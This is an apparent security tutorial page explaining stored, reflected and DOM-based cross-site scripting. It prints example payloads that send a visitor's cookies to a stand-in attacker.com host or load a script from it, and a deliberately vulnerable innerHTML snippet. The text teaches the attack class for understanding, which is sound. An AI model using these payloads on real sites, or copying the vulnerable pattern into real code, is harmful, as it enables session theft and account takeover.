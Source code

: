 # Cross-Site Scripting \(XSS\)

Web applications usually respond to HTTP requests from a user's browser or other application. The server application will send a mixture of HTML, CSS and JavaScript that will be rendered and executed by the client. The browser will take the HTML and create a document object model \(DOM\) of the page using the CSS to style and format the HTML. Finally, JavaScript may be executed, and this could dynamically change the DOM and styling. Using JavaScript in this way helps to make the page responsive and avoiding round trips on the network back to the server. All of this makes the code that executes on the client vulnerable to attack in a number of different points in this process.

Cross-site scripting is another example of allowing unchecked and unsanitized input. In this case, the input is of HTML and JavaScript. If the JavaScript is executed by a target's browser, there is the potential to do a number of malicious things including:

* JavaScript to steal cookies that may contain session tokens that can be used for impersonation of a user.
* Use HTML5 to gain access to microphones, cameras and other devices on the computer
* Keylogging by registering event listeners
* Make other HTTP requests to carry out Server-Side Request Forgery \(SSRF\) attacks
* Change the appearance of the page to abuse the target

XSS relies on the targeted user to interact with URLs and to potentially allow access when requested, so it relies heavily on social engineering techniques to trick a user into doing things on the attacker's behalf. In this respect though, it is not that dissimilar to phishing attacks generally.

There are three main types of XSS. The first two differ in whether they are persistent or not.

## Stored XSS

Stored XSS is where an attacker injects malicious content that is stored by the application and then served up to other victims who visit the site. An example of this is would be injecting script into the input of a comment feature on a site which then gets displayed to other users. The script can be crafted to steal cookies by using the code:

```javascript
<script>window.location="http://attacker.com/?cookie=" + document.cookie</script>
```

Javascript can be incorporated into other HTML elements such as

```javascript
<img src="javascript:alert('XSS');">
```

More sophisticated scripts can be included from external sources:

```javascript
<script src=http://attacker.com/xss.js></script>
```

## Reflected XSS

This is a non-persistent XSS attack where the target is tricked into clicking a link to a site that incorporates the malicious script. An example of this would be tricking a target to click on a search link:

```markup
<a href=http://search.com/search?keyword=<script>
window.location='http://attacker.com/?cookie=' + 
document.cookie</script>;>Click Here</a>
```

The script would be executed when the search function prints the results:

```text
You searched for: <script>window.location='http://attacker.com/?cookie=' + 
    document.cookie</script>
Results: …
```

Again the user needs to be tricked into clicking a link and ideally not noticing the results of that click.

## DOM-based XSS

In DOM-based XSS, the attacker uses the existing scripts on a page to write malicious code to the page itself where it is then executed. All of this can happen on the client when the page's javaScript is executed bypassing any filtering or protection on the server itself.

Taking the requested URL from the previous example

```bash
http://search.com/search?keyword=javascript:alert("DOM XSS on: " + document.domain)
```

The following HTML would be vulnerable:

```markup
<html>
Your search: <em></em>
<script>
  var keyword = location.search.substring(9);
  document.querySelector('em').innerHTML = keyword;
  window.location=document.querySelector('em').innerHTML
</script>
</html>
```

This would then result in the malicious script being included in the page:

```markup
<html>
Your search: <em>javascript:alert("DOM XSS on: " + document.domain)</em>
<script>
  var keyword = location.search.substring(6);
  document.querySelector('em').innerHTML = keyword;
</script>
</html>
```

This would result in an alert being popped up.

